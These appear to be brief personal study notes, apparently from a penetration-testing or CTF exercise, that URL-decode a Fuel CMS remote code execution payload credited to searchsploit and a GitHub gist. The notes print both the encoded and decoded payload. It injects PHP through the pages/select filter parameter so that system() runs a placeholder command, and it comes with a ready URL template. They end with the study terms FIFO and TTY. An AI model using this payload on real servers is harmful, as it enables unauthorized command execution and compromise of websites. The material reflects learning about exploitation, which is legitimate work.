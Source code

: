 ### RAW NOTES

**DECODING**: URL ENCODE
```
%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27      CMD       %27%29%2b%27 # from searchsploit 
"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ CMD +"%27)%2B%27" # https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py 
```

**OUTPUT**  
```
'+pi(print($a='system'))+$a('      CMD       ')+'
"http://{IP}/fuel/pages/select/?filter='+pi(print($a='system'))+$a('"  CMD  "')+'"
```

STUDY SEARCH THIS TERMS

FIFO
TTY 
